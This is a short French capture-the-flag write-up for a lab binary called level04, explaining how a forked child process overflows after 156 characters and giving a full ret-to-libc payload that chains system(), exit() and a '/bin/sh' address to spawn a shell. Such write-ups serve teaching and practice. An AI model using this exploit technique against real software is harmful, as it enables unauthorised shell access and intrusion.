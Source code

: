 
# Level04:

Ici quand on observe le source.c on constate qu'il **fork()** le programme, dans le *processus fils* il rentre en communication avec le parent et demande une string (qui va etre overflow a partir du 156eme charactere), dans le *processus parent* il ecoute le *processus fils* et si `exec()` est appele, le processus est ferme directement.

![exploit.png](./cheh.png)

On ne peut donc pas utiliser la methode precedente mais nous pouvons faire une attaque **ret to libc** avec la commande suivante:

`(python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" ; cat) | ./level04`
Elle se decompose comme suit:

**[padding (156 * A)][`system()` address from libc][`exit()` address from libc]["/bin/sh" string address from libc]**

Ci-dessous on recupere les adresses de `exit()` et `system()`:
![extract_address.png](./extract_address.png)

Et ici nous recuperont l'offset de la string "/bin/sh" depuis le debut de la libc
![get_string.png](./get_string.png)

Que nous ajoutons donc a l'adresse du debut de celle de la libc (**0xf7e2c000**)
![info_proc.png](./info_proc.png)

Et voila le resultat:
![finaly.png](./finaly.png)